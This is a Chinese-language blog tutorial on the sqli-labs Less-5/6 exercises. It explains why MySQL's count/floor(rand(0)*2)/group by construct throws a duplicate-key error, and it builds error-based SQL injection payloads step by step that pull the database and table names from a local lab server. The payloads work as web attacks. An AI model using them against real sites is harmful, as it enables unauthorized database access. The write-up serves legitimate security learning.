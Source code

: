 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL 注入（九） 报错注入专题"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-11-04 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


<blockquote>
  简直悲壮 = =
</blockquote>

<h2>Less-5 &amp; Less-6</h2>
<h3>Count()</h3>
<pre class="lang:tsql decode:true" title="count()">select count(*) from information_schema.tables;</pre>
该函数将会返回information_schema.tables表的行数，属于聚合函数

<h3>Rand()</h3>
<pre class="lang:tsql decode:true" title="rand()">select rand()</pre>
该函数返回一个介于0和1之间的随机数，注意rand()和rand(0)不同，传入的参数称为随机数种子，如果有这个种子，每次生成的结果都是<strong>固定的</strong>

rand(0)的三次实验

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand0_1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand0_2.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand0_3.png" />

rand()的三次实验

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand1_1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand1_2.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand1_3.png" />

<h3>Group by</h3>
group by是根据by后面的规则，将数据进行分组，分组即根据一个数据集划分为若干个小区域，然后针对若干个小区域分别进行数据处理（分类汇总）

例如 <code>select type, sum(number) as total from A group by type</code> 会统计每一种type的数量，然后返回一个表来展示每一种type的数量（即total）

group by 函数一般会和聚合函数一起使用

如果不与聚合函数一起使用，比如以下语句<code>select table_name, table_schema from information_schema.tables group by table_schema</code> 将会根据table_schema的首字母排序，输出每个数据库里第一个表的名字（只有第一个了）

<h3>Group_concat()</h3>
group_concat()函数会将数值相同的字段打印在一行，用逗号分割

<h3>注入整体分析</h3>
~~终于明白了~~

如果要分析他为何报错，我们要先来看以下几个内容：
1. select count(&#42;) from table group by x; 这个语句执行的原理
2. rand() 函数作为 group by 参数执行时的特性
3. select count(&#42;) from table group by floor(rand(0)&#42;2)报错的完整分析

<h4>select count(&#42;) from table group by x 执行原理</h4>
这个语句的意思就是将整组数据按照x这一条件分类，将每一类分别统计数量。当Mysql遇到该语句时会建立一个空的虚拟表用于统计，如下图所示：

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_table_groupby.png" />

左边是真实的表，我们要统计这个表中name相同的元素的数量，使用语句
select count(&#42;) from table group by name

这时候Mysql会先建立一个虚拟表如右图，key和value为表头，其中key对应的是name不同的值，而value则为具体的统计数量。Time是为了方便说明加入的计次

当检索第一条数据时，虚拟表中没有a这个值，因此这个值的数量1(value)将会被记录下来，这个值a(key)也会被记录下来；

当检索第二条数据时，同理，记录下了b的value和b的key；

...

当检索到第五条时，发现虚拟表中已经存在了key为d的条目，于是将对应的value增加1

<h4>rand() 函数作为 group by 参数执行时的特性</h4>
Mysql官方给过提示，当rand()函数与group by一起使用时，rand()将被执行多次，“多次”的含义是：如果虚拟表中不存在对应记录，则在讲rand()插入虚拟表时会再执行一次。

我们已经知道了在多次查询中，floor(rand(0)&#42;2)的值是固定的，为 0,1,1,0,1,1,...

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_table_error.png" />

当执行语句的时候，先会计算一次floor(rand(0)&#42;2)，这个值是0，我们的语句就变成了 select count(&#42;) from table group by 0; 以此检索第一条数据， 此时虚拟表不存在key为0的记录，我们将其value记为1，插入到虚拟表。但由于虚拟表没有这条记录，在记录key的值的时候，floor(rand(0)&#42;2)又计算了一次，值现在为1，我们实际记录的是(1:1)

接着检索第二条数据，再次计算floor(rand(0)&#42;2)，值为1，我们的虚拟表中已经存在这个结果，于是将value由1变成2

下面是检索第三条数据，floor(rand(0)&#42;2)的计算结果为0，我们的虚拟表中不存在这个结果，将value记为1，而在插入key的值的时候，又会计算一次floor(rand(0)&#42;2)，这时候key的值变成了1，于是我们得到了一条记录(1:1)，这时候键就重复了，有两个key为1的记录，于是报错

我们也可以看到，这个方法只有在表中<strong>大于三条数据</strong>的时候才能成功。

<h3>Payload</h3>
<pre class="lang:tsql decode:true " title="payload">' and (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,
floor(rand(0)*2))name from information_schema.tables group by name) --+</pre>

&nbsp;

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_payload_1.png" />
此时提示Operand should contain 1 column(s)，原因是这里只能输出1个字段，但我们的语句输出了多个字段，因此只要加上一个select 1即可，将payload改为：

<pre class="lang:tsql decode:true" title="payload">' and (slect 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,
floor(rand(0)*2))name from information_schema.tables group by name)) --+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_payload_2.png" />

这时候提示我们Every derived table must have its own alias，意思是每一个派生出来的表必须有一个自己的别名，我们进行嵌套查询的时候需要将子查询的结果作为一个派生表进行上一级的查询，因此必须有一个别名。将payload继续改进：

<pre class="lang:tsql decode:true " title="database">' and (slect 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,
floor(rand(0)*2))name from information_schema.tables group by name)x) --+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_payload_3.png" />

<pre class="lang:tsql decode:true " title="table_name">http://192.168.137.128/sqli/Less-5/?id=1' and (select 1 from (select count(*),
concat(0x3a,0x3a,(select table_name from information_schema.tables limit 1,1),
0x3a,0x3a,floor(rand(0)*2))name from information_schema.tables group by name)x) --+
</pre>